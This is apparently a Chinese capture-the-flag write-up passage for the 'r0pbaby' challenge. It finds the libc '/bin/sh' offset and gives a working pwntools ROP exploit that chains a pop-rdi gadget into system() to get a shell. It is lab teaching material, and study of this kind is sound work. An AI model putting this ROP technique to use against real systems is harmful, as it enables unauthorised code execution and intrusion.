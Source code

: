 <br>

**确认libc.so.6**



```
wings@sw:~/桌面/Rop$ ldd r0pbaby
    linux-vdso.so.1 =&gt;  (0x00007ffff7ffd000)
    libdl.so.2 =&gt; /lib/x86_64-linux-gnu/libdl.so.2 (0x00007ffff7bd9000)
    libc.so.6 =&gt; /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7810000)
    /lib64/ld-linux-x86-64.so.2 (0x0000555555554000)
wings@sw:~/桌面/Rop$ strings -a -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 18c177 /bin/sh
```

可以知道 偏移是0x18c177

至于sytem函数，程序的第二个功能已经给我们了，至此，我们可以开始构造我们的exp了.



```
system = 0x00007FFFF784F390 #get_libc_base()
rdi_gadget_offset = 0x21102
bin_sh_offset = 0x18c177
system_offset = 0x45390
from pwn import *
debug =1
if debug ==1:
  io = process("./r0pbaby")
else:
  io = remote("127.0.0.1",10002)
  #db.attach(io)
system = 0x00007FFFF784F390#get_libc_base()
rdi_gadget_offset = 0x21102
bin_sh_offset = 0x18c177
system_offset = 0x45390
libc_base = system - system_offset # system addr - system_offset = libc_base
print "[+] libc base: [%x]" % libc_base
rdi_gadget_addr = libc_base + rdi_gadget_offset
print "[+] RDI gadget addr: [%x]" % rdi_gadget_addr
bin_sh_addr = libc_base + bin_sh_offset
print "[+] "/bin/sh" addr: [%x]" % bin_sh_addr
system_addr = 0x00007FFFF784F390#get_libc_func_addr(h, "system")
print "[+] system addr: [%x]" % system_addr
payload = "A"*8
payload += p64(rdi_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)
io.recv(1024)
io.sendline("3")
io.recv(1024)
io.send("%dn"%(len(payload)+1))
io.sendline(payload)
io.sendline("4")
io.interactive()
```
